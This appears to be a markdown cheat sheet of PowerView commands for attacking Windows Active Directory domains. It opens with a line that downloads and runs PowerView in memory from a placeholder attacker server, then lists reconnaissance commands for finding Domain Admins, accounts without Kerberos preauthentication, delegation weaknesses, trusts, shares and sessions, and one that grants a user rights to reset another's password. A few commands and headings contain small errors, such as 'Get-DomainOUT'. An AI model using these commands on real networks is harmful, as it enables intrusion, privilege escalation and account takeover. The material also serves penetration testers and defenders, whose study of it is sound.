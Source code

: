 # <h1 align="center" id="heading">Domain Enumeration with PowerView</h1>
### Load PowerView in Memory
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/PowerView.ps1")
```

### Get all the effective members of a group, 'recursing down'
```powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```

### All enabled users, returning distinguishednames
```powershell
Get-DomainUser -LDAPFilter "(!userAccountControl:1.2.840.113556.1.4.803:=2)" -Properties distinguishedname
```
```powershell
Get-DomainUser -UACFilter NOT_ACCOUNTDISABLE -Properties distinguishedname
```

### Check for users who don't have kerberos preauthentication set
```powershell
Get-DomainUser -PreauthNotRequired
```
```powershell
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```

### Find any users/computers with constrained delegation st
```powershell
Get-DomainUser -TrustedToAuth
```
```powershell
Get-DomainComputer -TrustedToAuth
```

### Enumerate all servers that allow unconstrained delegation, and all privileged users that aren't marked as sensitive/not for delegation
```powershell
$Computers = Get-DomainComputer -Unconstrained
```
```powershell
$Users = Get-DomainUser -AllowDelegation -AdminCount
```

### Enumerate who has rights to the 'matt' user in 'testlab.local', resolving rights GUIDs to names
```powershell
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local
```

### Grant user 'will' the rights to change 'matt's password
```powershell
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```

### Enumerate information on the current forest
```powershell
Get-Forest
```

### Enumerate all domains in the current forest
```powershell
Get-ForestDomain
```

### Enumerate information on the current domain
```powershell
Get-Domain
```

### Enumerate all domain trusts
```powershell
Get-DomainTrust
```

### Recursively map all domain trusts
```powershell
Get-DomainTrustMapping
```

### Find users in groups outside of the given domain (outbound access)
```powershell
Get-DomainForeignUser
```

### Find groups with users outside of the given domain (inbound access)
```powershell
Get-DomainForeignGroupMember -Domain target.domain.com
```

### Return domain OUs
```powershell
Get-DomainOUT
```

### Return domain GPOs
```powershell
Get-DomainGPO
```

### Find likely file servers based on user properties
```powershell
Get-DomainFileServer
```

### Enumerate shares on a specific machine
```powershell
Get-NetShare <X>
```

### Enumerate shares on a specific machine
```powershell
Get-NetSession <X>
```

### Enumerate RDP sessions (and source IPs)
```powershell
Get-NetRDPSession <X>
```
